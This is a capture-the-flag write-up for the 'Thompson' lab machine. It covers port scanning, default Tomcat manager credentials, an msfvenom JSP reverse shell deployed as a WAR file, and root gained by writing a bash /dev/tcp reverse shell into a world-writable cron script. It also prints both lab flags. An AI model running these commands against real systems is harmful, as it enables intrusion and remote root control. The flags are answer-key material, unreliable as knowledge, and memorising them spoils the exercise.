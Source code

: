 # Thompson

## Description

boot2root machine for FIT and bsides guatemala CTF

read user.txt and root.txt

## Initial Scan

Let's start with an Nmap scan. The scan reveals three open ports:
* 22 ssh
* 8009 ajp13
* 8080 http

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Enumeration

Let's start with the web service. Apache Tomcat application is running on this port. There is no `/robots.txt`, so I ran `dirsearch` to find directories:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Thompson]
└─$ dirsearch -u http://$IP:8080/ -w /usr/share/dirb/wordlists/common.txt                        

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /home/user/.dirsearch/reports/10.10.148.43/_21-11-13_06-52-10.txt

Error Log: /home/user/.dirsearch/logs/errors-21-11-13_06-52-10.log

Target: http://10.10.148.43:8080/

[06:52:12] Starting: 
[06:52:20] 302 -    0B  - /docs  ->  /docs/
[06:52:21] 302 -    0B  - /examples  ->  /examples/
[06:52:22] 200 -   21KB - /favicon.ico
[06:52:24] 302 -    0B  - /host-manager  ->  /host-manager/
[06:52:28] 302 -    0B  - /manager  ->  /manager/

Task Completed
~~~

The only useful one is `/manager`, but it requires authorization. Thankfully, the credentials are revealed on the following page:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Thompson]
└─$ curl -s "http://$IP:8080/manager/html" | html2text | head               
****** 401 Unauthorized ******
You are not authorized to view this page. If you have not changed any
configuration files, please examine the file conf/tomcat-users.xml in your
installation. That file must contain the credentials to let you use this
webapp.
For example, to add the manager-gui role to a user named tomcat with a password
of s3cret, add the following to the config file listed above.
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>   <-----------
Note that for Tomcat 7 onwards, the roles required to use the manager
~~~

Now we can connect to `/manager` using the followin creds:
* Username: `tomcat`
* Password: `s3cret`

## Reverse shell

There are two sections. One is for managing the applecations and one for uploading new ones. I used `msfvenom` to create a JSP reverse shell in a war file using the following command:

~~~
$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<YOUR IP> lport=4444 -f war -o shell.war
~~~

Now that we have the file, we can uplaod it here:

<p align="center"><img src="./files/upload.png"></p>

Upload the reverse shell and open a listener (`rlwrap nc -lvnp 4444`). Now call the shell by navigating to `http://<MACHINE IP>:8080/shell`. Now we have a shell as `tomcat`. The first thing I did was spawning a TTY shell:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Thompson/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.77] from (UNKNOWN) [10.10.148.43] 40518
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
tomcat@ubuntu:/$
~~~

## User flag

I listed `/home` and there is only one user named `jack`. I found the user flag in `jack`'s home directory:

~~~
tomcat@ubuntu:/$ ls /home
jack
tomcat@ubuntu:/$ cd /home/jack
tomcat@ubuntu:/home/jack$ ls
id.sh  test.txt  user.txt
tomcat@ubuntu:/home/jack$ cat user.txt
39400c90bc683a41a8935e4719f181bf
~~~

user.txt: `39400c90bc683a41a8935e4719f181bf`

## Going root

Now we need to obtain the root flag. There is an sh file in jack's home directory named `id.sh` and a txt file named `test.txt`. Let's see the content:

~~~
tomcat@ubuntu:/home/jack$ cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt
uid=0(root) gid=0(root) groups=0(root)
~~~

`id.sh` runs `id` command and saves the result in `test.txt`. But as you can see, the command has been ran as `root` because we can see the id of the root user in the result. My first guess was a cronjob and checking `/etc/crontab` confirms this:

~~~
tomcat@ubuntu:/home/jack$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
#
~~~

`id.sh` is being ran by root every minute and it is writable to everyone: 

~~~
tomcat@ubuntu:/home/jack$ ls -la id.sh
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
~~~

We can modify `id.sh` and replace it with `cat /root/root.txt > test.txt` to save the content of the root flag in `test.txt` or a bash reverse shell to gain the root access. I chose the second way. Since it is being ran by root, we'll get a root shell. Let's do it then. Run the following command to insert a bash reverse shell to `id.sh`:

~~~
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/<YOUR IP>/9001 0>&1" > id.sh
~~~

Now open a listener (`rlwrap nc -lvnp 9001`) and wait. After a little while we'll get a shell as `root`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Thompson/files]
└─$ rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.2.77] from (UNKNOWN) [10.10.148.43] 38648
bash: cannot set terminal process group (1241): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now we can head to `/root` and read the root flag:

~~~
root@ubuntu:/home/jack# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
d89d5391984c0450a95497153ae7ca3a
~~~

root.txt: `d89d5391984c0450a95497153ae7ca3a`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and leaned something.

Have a g00d one! : )